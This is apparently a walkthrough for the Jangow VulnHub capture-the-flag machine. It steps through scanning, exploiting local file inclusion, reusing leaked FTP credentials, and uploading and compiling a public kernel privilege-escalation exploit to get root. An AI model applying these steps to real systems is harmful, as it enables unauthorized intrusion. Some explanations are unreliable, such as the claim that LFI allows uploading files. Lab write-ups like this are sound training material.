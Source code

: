 # JANGOW-1.0.1-Walkthrough-Vulnhub
Walkthrough and exploitation steps for the Jangow CTF machine from VulnHub.
## VulnHub CTF — Jangow Walkthrough

This is a walkthrough for the **Jangow** machine from VulnHub. It covers the entire exploitation process, including enumeration, LFI, credential discovery, privilege escalation, and finally rooting the machine.

---

### 1.Setup

- Import the `.ova` file into VirtualBox.
- Run the machine.
- Use `netdiscover` to identify its IP:

```bash
netdiscover -i eth0
```
## Result

![](images/netdiscover.png)

I discovered the machine at `192.168.1.122`.

---

### 2.Port Scanning with Nmap

Initial port scan:

```bash
nmap 192.168.1.122
```
## Nmap Scan Result

![Nmap Output](https://example.com/nmap_result.png)
Open ports:
- **80 (HTTP)**
- **21 (FTP)**
  
We see that ports 80 and 21 are open. 80 is an HTTP website port, while 21 is an FTP file transfer port. Now let's use nmap to scan them in detail. Command: nmap -p 80,21 -Pn -n -sC -sV -oN nmaptaramasi.txt 192.168.1.122

Detailed scan:

```bash
nmap -p 80,21 -Pn -n -sC -sV -oN nmap_scan.txt 192.168.1.122
```
[Output](https://example.com/nmap_result.png)

**Flags used:**
- `-p`: specific ports
- `-Pn`: skip host discovery
- `-n`: skip DNS resolution
- `-sC`: run default scripts
- `-sV`: detect service versions
- `-oN`: save output to file

---

### 3.Web Enumeration

Visiting `http://192.168.1.122` reveals a website with a **"Buscar"** tab, which redirects to:

```
https://pwnlab.me/redirect?to=aHR0cDovLzE5Mi4xNjguNTYuMTE4L3NpdGUvYnVzcXVlLnBocD9idXNjYXI9
```
[Output](https://example.com/nmap_result.png)

This link appears vulnerable to **Local File Inclusion (LFI)**. LFI allows us to upload files remotely. Since the machine is currently running locally, it's local, of course. If it can be uploaded to a remote server, it's RFI. Since I'm running the machine locally, I'll exploit LFI. 

##Local File Inclusion (LFI)
Local File Inclusion (LFI) is a web browser option that enables an attacker to include files on a server. When a web application contains a file before correctly filtering the input, this vulnerability occurs, allowing an attacker to modify the input, insert jump characters from the route, and provide other files from the webserver. It typically affects PHP applications.
By manipulating the URL, we can inspect the file structure and extract sensitive files.

---
[Output](https://example.com/nmap_result.png)

### 4.Credential Discovery

Exploring the web root:

```bash
pwd
# /var/www/html/site

ls -all
```
[Output](https://example.com/nmap_result.png)
[Output](https://example.com/nmap_result.png)

Found a hidden file: `.backup`  
Contents of `.backup` reveal **MySQL credentials**. .backup has read and write permissions.
Also, since FTP port is open, I tested those credentials on the FTP service.

---
[Output](https://example.com/nmap_result.png)

### 5.FTP Access & File Upload

Login to FTP using:

```bash
ftp 192.168.1.122
```

Credentials:
```
Username: jangow01
Password: abygurl69
```
[Output](https://example.com/nmap_result.png)

We've now learned that we can put files inside. We'll try navigating to different directories and using the "put" command. Our goal here is to run the exploit we've installed and become root. To do this, we'll use Local Privilege Escalation. I'll go to my home directory and enter the directory named "jangow01."
Change to the user's home directory:

```ftp
cd /home/jangow01
```
```ftp
ls -all
```
[Output](https://example.com/nmap_result.png)
Download the user flag:

```ftp
get user.txt
```
[Output](https://example.com/nmap_result.png)
---

### 6.Privilege Escalation

Check the kernel version:

```bash
uname -a
# Linux jangow01 4.4.0-31-generic
```
[Output](https://example.com/nmap_result.png)

Search for privilege escalation exploits and found:  
**CVE-2017-16995**
Downloaded and saved the exploit as `jangow.c`.
https://www.exploit-db.com/exploits/45010

Upload it via FTP:

```ftp
put jangow.c
```
[Output](https://example.com/nmap_result.png)
---

### 7.Compilation & Exploitation

On the Jangow machine:
Now let's compile and assemble the .c file using the gcc command: gcc jangow.c -o jangow
Now to make it executable: chmod +x jangow
Then execute the script: ./jangow

```bash
gcc jangow.c -o jangow
chmod +x jangow
./jangow
```
[Output](https://example.com/nmap_result.png)
Now you're root!

---

###8.Root Flag

Check the user:

```bash
whoami
# root
```
[Output](https://example.com/nmap_result.png)
Get the flag:

```bash
ls /root
cat /root/proof.txt
```
[Output](https://example.com/nmap_result.png)
---

## Summary

- Gained access via **LFI**
- Extracted credentials via hidden file
- Used **FTP** to upload a privilege escalation exploit
- Compiled and executed exploit
- Gained **root access**

**Machine successfully rooted!** 
